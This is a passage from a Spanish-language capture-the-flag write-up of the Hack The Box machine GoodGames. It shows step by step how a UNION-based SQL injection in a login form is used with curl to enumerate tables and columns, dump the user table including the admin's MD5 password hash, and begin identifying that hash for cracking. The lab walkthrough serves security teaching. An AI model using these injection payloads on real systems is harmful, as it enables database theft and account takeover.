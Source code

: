 Obtengamos las tablas de esa BD:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'main'-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
blog:blog_comments:user:
```
La de interés es la tabla **user**.

Veamos las columnas de esa tabla:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_schema = 'main' and table_name = 'user'-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
email:id:name:password:
```
Vamos bien.

Por último, vamos a dumpear los datos de esas columnas:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(email, ':', id, ':', name, ':', password, ':') from user-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
admin@goodgames.htb:1:admin:2b22337f218b2d82dfc3b6f77e7cb8ec:test@test.com:2:test:cc03e747a6afbbcbf8be7668acfebee5:
```
Listo, pero solo nos interesan los datos del administrador.

Podemos eliminar los datos extras, solamente agregando un salto de línea en el `concat()`:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' union select 1,2,3,concat(email, ':', id, ':', name, ':', password, ':', '\n') from user-- -&password=test123" | grep "Welcome" | awk 'NF{print $NF}' | awk '{print $1}' FS="<"
admin@goodgames.htb:1:admin:2b22337f218b2d82dfc3b6f77e7cb8ec:
```
Continuemos.

<h2 id="MD5">Crackeando Hash Obtenido de la Base de Datos con JohnTheRipper</h2>

Ya sabemos que el hash de la contraseña del administrador fue hecho con **MD5**.

Pero podemos identificar el tipo de encriptación, de acuerdo con la cantidad de caracteres. Por ejemplo, los **hash MD5** tienen 32 caracteres: 
```bash
echo -n "2b22337f218b2d82dfc3b6f77e7cb8ec" | wc -c
32
```
Son 32.

De igual forma, podemos usar la herramienta **hash-identifier** para que identifique el tipo de **hash** que tenemos:
```bash
hash-identifier
/usr/share/hash-identifier/hash-id.py:13: SyntaxWarning: invalid escape sequence '\ '
  logo='''   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2b22337f218b2d82dfc3b6f77e7cb8ec
```